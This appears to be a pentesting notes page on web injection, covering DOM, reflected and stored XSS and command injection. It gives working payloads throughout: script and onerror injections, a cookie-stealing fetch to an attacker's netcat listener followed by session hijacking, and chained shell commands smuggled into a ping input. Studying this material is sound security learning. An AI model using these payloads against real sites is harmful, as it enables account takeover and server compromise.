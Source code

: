 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Injection

Occurs when we find a way of sending html, css, js code, database petitions and others, via a petition or URL of a website.

## <mark style="color:purple;">Cross-site Scripting</mark>

* XSS scripting allows execution of  maliciuos code of javascript or any client-side language

### DOM-based

The html document of a page can be mutated

#### Example

* The URL shows changes of a parameter

<pre class="language-html" data-overflow="wrap" data-line-numbers><code class="lang-html">&#x3C;!-- We select language in a slider and is reflected on url -->
http://url/?language=en

&#x3C;!-- Check html of page for script tags and document.write() functions-->
...
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>
...

&#x3C;!-- Use '> to close "value" parameter and then close tags -->
http://url?language='>&#x3C;/option>&#x3C;/select>   
&#x3C;!-- You will see all options of the slider are now displayed on screen -->

<strong>&#x3C;!-- Then create whatever tag -->
</strong>http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

&#x3C;!-- Abuse this to inject even js code -->
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTRY TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* When script tag is being filtered

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Use image tag, putting a bad source cause a error, we handle it with 'onerror' parameter that let us insert JS Code
http://url?language='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}

***

### Reflected:&#x20;

When URL or form parameters are displayed on screen of the page

#### Example:

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We made a get to http://url/?msg=Hello
# The site Return "Hello" in any part of the html
# Then we could do something like this to inject code
<strong>curl http://url/?msg=&#x3C;script>$payload&#x3C;/script>
</strong></code></pre>

***

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We insert Hello in a formulary
# The site return "Hello" in any part of the html
# Then we could fill the form with code to inject
<strong>&#x3C;script>$payload&#x3C;/script>
</strong><strong>
</strong><strong>#Sometimes tag filter can be bypass using capital letters
</strong>&#x3C;SCRIPT>$payload&#x3C;/SCRIPT>

#Or using img tag
&#x3C;img src=x onerror='alert("HACKED")'/>
</code></pre>

***

### Stored:

The input of values is saved by the web and display to anyone who browse to the site. Maliciuos code in the same way will remain globally in the web site.

#### Example:

* A formulary show a list of entries

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert name and comment in the formulary
#Every time an insertion is done the website update a list with the entries that is displayed to every user
#Then we could fill the form to inject code
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

***

### Secret disclosure:

When the application shows _Stored XSS_ vulnerability, we could try to hijkack cookies such as sessions tokens that are being stored on client-side

#### Example:

* By normal in an accessed session you can go to _Inspect>Application>Cookies_ tab and check the values being stored

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```
Name               Value                              HttpOnly
...                ...                                ...
PHPIDSESSID        e15df96b271a9729837c2bb206b522c7
...                ...                                ...
```
{% endcode %}

{% hint style="info" %}
* `HttpOnly` tag unmarked, indicates that the cookie can interact with JavaScript code
* `PHPIDSESSID` is the default session cookie on php handled pages
{% endhint %}

***

{% hint style="info" %}
We can assume that is configurated this way and try to get the cookie values by force
{% endhint %}

***

* On host machine set up a listener port with netcat

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
nc -nlvp $port
```
{% endcode %}

***

* Make a cookie hijacking using the Stored XSS vulnerable part

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#Fill the form with the payload
<script>fetch("$IP:$port" + document.cookie);</script>
#This will get the information of the cookie values
```
{% endcode %}

{% hint style="info" %}
The `$IP` and `$port` values are from your machine and the port opened with _netcat_
{% endhint %}

***

* Once you have the cookie value go to the website page, go to _Inspect>Application>Cookies_ tab, set the cookie value and reload the page

```bash
Name               Value                             
...                ...                                
PHPIDSESSID        $hijackedCookie     #We set the cookie obtained   
...                ...
#This will log you in the session we stealed without need of credentials
```

***



## <mark style="color:purple;">SQL Injection</mark>

* Poisoning estructured database queries based on SQL with the user input
* To know more about this type of injection you can go [here](../../database-attacks/sql-injection.md)



## <mark style="color:purple;">Command injection</mark>

* Abuse user inputs on page to execute commands on the server of an application

#### Example

* When internally is being used use the _system()_ function

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with cmd=$command, this will let us now if we can have access to a terminal of the machine
curl -X POST http://url/? -d "cmd=whoami"
#Is possibly being handled by system() and will give the user on the response
```
{% endcode %}

#### Example 2:

* The aplication receive input for internal server commands

{% code overflow="wrap" lineNumbers="true" %}
```bash
#An aplication makes pings and recieve the IP as input
8.8.8.8 #Input
#Example output
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=26.4 ms
...
#Works like the following command inside
ping -c4 $input
```
{% endcode %}

***

* Abuse input to add other commands

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">8.8.8.8; ls -la
#Try other options if is being filtered
<strong>8.8.8.8 &#x26; ls -la    
</strong>8.8.8.8 &#x26;&#x26; ls -la
8.8.8.8 | ls -la
8.8.8.8 || ls -la
</code></pre>

***


